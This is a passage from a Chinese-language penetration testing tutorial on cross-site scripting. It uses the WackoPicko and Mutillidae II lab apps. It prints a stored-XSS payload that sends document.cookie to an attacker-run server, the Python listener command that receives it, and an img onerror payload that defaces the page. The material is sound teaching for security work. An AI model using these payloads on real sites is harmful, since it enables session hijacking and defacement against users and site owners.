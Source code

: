 +   利用浏览器漏洞

触发 XSS 漏洞的方式有很多种，不仅仅是`<script></script>`标签。请参考 OWASP 的防御备忘单，链接如下：

[`www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet`](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)

在接下来的几节中，我们将看一些实际的例子。

# 窃取 cookie

XSS 漏洞的一个直接影响是攻击者可以使用脚本代码窃取有效的会话 cookie，并使用它劫持用户的会话，如果 cookie 的参数没有配置好的话。

为了收集会话 cookie，攻击者需要运行一个 Web 服务器，并监听被注入应用程序发送的请求。在最基本的情况下，可以使用从基本的 Python HTTP 服务器到运行接收和存储 ID 甚至使用它们自动执行进一步攻击的正确的 Apache 或 nginx 服务器。为了演示起见，我们将使用基本的 Python 服务器。在 Kali Linux 的终端会话中执行以下命令以在端口`8000`上运行服务器：

```
python -m SimpleHttpServer 8000  
```

一旦服务器运行起来，你将在 OWASP BWA 虚拟机中的 WackoPicko Web 应用程序中利用一个持久性 XSS 漏洞。在 Kali Linux 中浏览到 WackoPicko，在 Guestbook 表单中提交以下代码的评论：

```
<script>document.write('<img src="img/'+document.cookie+' ">');</script> 
```

注意`127.0.0.1`是 Kali Linux 的本地 IP 地址。它应该被设置为接收 cookie 的服务器的地址：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/web-pentest-kali-3e/img/00174.jpeg)

每次加载 Guestbook 页面时，它都会执行脚本并尝试从外部服务器获取图像。用于获取此类图像的请求在 URL 中包含会话 cookie，这将被记录在接收服务器上，如下面的截图所示：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/web-pentest-kali-3e/img/00175.jpeg)

# 篡改网站

使用 XSS 来篡改网站（改变其视觉外观）并不是一种非常常见的攻击。尽管如此，它是可以做到的，特别是对于持久性漏洞，它可以给一个网站被篡改的公司带来严重的声誉损害，即使服务器的文件没有发生任何改变。

你可以用 JavaScript 以多种方式改变网站的外观。例如，插入 HTML 元素如`div`或`iframe`，替换样式值，改变图像源，以及许多其他技术都可以改变网站的外观。你还可以使用文档的`body`的`innerHTML`属性来替换整个页面的 HTML 代码。

Mutillidae II 有一个 DOM XSS 测试表单，可以帮助我们测试这个漏洞。在菜单中，转到 OWASP 2013 | A3 - 跨站脚本攻击（XSS）| DOM 注入 | HTML5 存储。这个演示应用程序将信息保存到浏览器的 HTML5 存储中，并且它包含许多漏洞。在这里，我们将重点关注当一个元素被添加到存储中时，它会反映出键的事实，如下面的截图所示：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/web-pentest-kali-3e/img/00176.jpeg)

该表单有一定程度的过滤，因为`script`标签不会被反映出来：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/web-pentest-kali-3e/img/00177.jpeg)

经过一些不同注入字符串的试验和错误，你会发现一个带有不存在源（例如，`src`参数）的`img`标签是有效的：

```
<img src=x onerror="document.body.innerHTML='<h1>Defaced with XSS</h1>'"> 
```
